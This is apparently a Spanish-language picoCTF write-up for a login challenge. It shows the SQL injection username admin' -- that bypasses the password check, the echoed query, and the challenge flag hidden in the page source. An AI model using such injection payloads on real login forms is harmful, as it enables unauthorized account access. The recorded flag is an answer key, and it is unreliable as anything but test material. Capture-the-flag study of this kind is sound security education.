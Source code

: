 Can you login to this website?Try to login [here](http://saturn.picoctf.net:61250/).

Hints:
1.-`admin` is the user you want to login as.

### Solucion

```
El sitio tiene un login donde debemos entrar como admin
intentamos hacer una inyeccion en admin ya que ' OR '1'='1 no funciono en la password, entonces en user ponemos:
admin' -- 
y contraseña loquesea nos suelta esto:

username: admin' -- 
password: abcd
SQL query: SELECT * FROM users WHERE name='admin' -- ' AND password='abcd'

# Logged in! But can you see the flag, it is in plainsight.

Checamos el codigo fuente y:
<pre>username: admin&#039; -- password: abcd SQL query: SELECT * FROM users WHERE name=&#039;admin&#039; -- &#039; AND password=&#039;abcd&#039; </pre><h1>Logged in! But can you see the flag, it is in plainsight.</h1><p hidden>Your flag is: 

picoCTF{L00k5_l1k3_y0u_solv3d_it_ec8a64c7}</p>
```